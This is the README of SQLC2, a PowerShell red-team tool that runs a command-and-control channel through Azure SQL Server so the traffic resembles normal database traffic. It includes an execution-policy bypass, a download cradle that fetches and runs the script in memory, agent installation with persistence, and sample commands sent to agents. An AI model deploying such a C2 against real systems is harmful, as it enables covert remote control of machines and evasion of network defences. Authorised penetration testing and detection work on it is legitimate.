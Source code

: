 # SQLC2
SQLC2 is a PowerShell script for deploying and managing a command and control system that uses SQL Server as both the control server and the agent.  For more information and a walkthrough of how to get started with SQLC2 setup check out the blog at https://blog.netspi.com/.

# Why Bother with a SQL Server Based C2?
More companies are starting to use Azure SQL Server databases. When those Azure SQL Server instances are created, they are made accessible via a subdomain of database.windows.net on port 1433. For example, I could create SQL Server instance named "mysupersqlserver.database.windows.net". As a result, some corporate network configurations allow outbound internet access to any "database.windows.net" subdomain on port 1433. 

The general idea is that as Azure SQL Server adoption grows, there will be more opportunity to use SQL Server as a control channel that looks kind of like normal traffic.  SQLPS is a pretty basic proof of concept, but I think it’s functional enough to illustrate the idea. I know there are quite a few improvements to be made, but if you end up playing with it, I’d love to hear any feedback you have.

At its core, SQLC2 is just a few tables in an SQL Server instance that tracks agents, commands, and results. Nothing too fancy, but it may prove to be useful on some engagements.  Although this blog focuses on using an Azure SQL Server instance, you could host your own SQL Server in any cloud environment and have it listen on port 443 with SSL enabled. So, it could offer a little more flexibility depending on how much effort you want to put into it.

# Loading SQLC2
* **Option 1:** Download the script and import it.  This does not require administrative privileges and will only be imported into the current session.  However, it may be blocked by restrictive execution policies, so you may want to use the bypass option.

    `Set-ExecutionPolicy Bypass -Scope Process`
    
    `Import-Module SQLC2.psm1`
    
* **Option 2:** Load it into a session via a download cradle.  This does not require administrative privileges and will only be imported into the current session.  It should not be blocked by executions policies.

    `IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/SQLC2/master/SQLC2.psm1")`

     **Note:** To run as an alternative domain user, use the runas command to launch PowerShell first. 

    `runas /noprofile /netonly /user:domain\user PowerShell.exe`
    
# Basic SQLC2 architecture diagram
![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/arch.png) 

# User Functions
Below is a list of user functions that support the intended workflows.  

|Function Name|Description |
|:--------------------------------|:-----------|
|Install-SQLC2Server|Install SQLC2 tables on target SQL Server/database.|
|Install-SQLC2AgentPs|Install an agent that uses an SQL Server agent job and server link.|
|Install-SQLC2AgentLink|Install an agent that uses a schedule task or registry key to execute PowerShell commands.|
|Set-SQLC2Command|Set operating system commands for agents to run.|
|Get-SQLC2Command|Get a list of pending operating system commands from the C2 for the agent.  This can also execute the pending command with the -Execute flag.|
|Get-SQLC2Agent|Get a list of agents registered on the SQLC2 server.| 
|Get-SQLC2Result|Get a list of pending and completed commands. Support servername, status, and cid filters.|
|Remove-SQLC2Agent|Remove agents registered on the SQLC2. Simply clears the history.|
|Remove-SQLC2Command|Remove the command history on the SQLC2 server.|
|Uninstall-SQLC2AgentLink|Uninstall SQLC2 agent that uses server links and an agent job.|
|Uninstall-SQLC2AgentPs|Uninstall all operating system based persistence methods.|
|Uninstall-SQLC2Server|Remove the SQLC2 tables from the target database.|

# Screen Shots
Below are a few sample screenshots.

Install SQLC2 Server (Create tables):

`Install-SQLC2Server -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install C2](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Server.png) 

Install SQLC2 Agent (SQL Server agent Job that uses a server link):

Install-SQLC2AgentPs -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'

![Install Agent](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Link_Agent.png)  

View SQLC2 Agents:

Get-SQLC2Agent -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'

![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/Get-Command-Results.png) 

Set Command to Run on Agent:

Set-SQLC2Command -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
-Command "Whoami" -ServerName MSSQLSRV04

![Set_Command](https://github.com/NetSPI/SQLC2/blob/master/images/Set%20Command%20to%20Run%20on%20Agent.png)        

Get Command Results:
Get-SQLC2Result -Verbose -ServerName "MSSQLSRV04" -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
![Get Command Output](https://github.com/NetSPI/SQLC2/blob/master/images/List%20execute%20agent%20commands.png)       

### Author and License
* Author: Scott Sutherland (@_nullbind), NetSPI - 2018
* License: BSD 3-Clause
* Required Dependencies: None
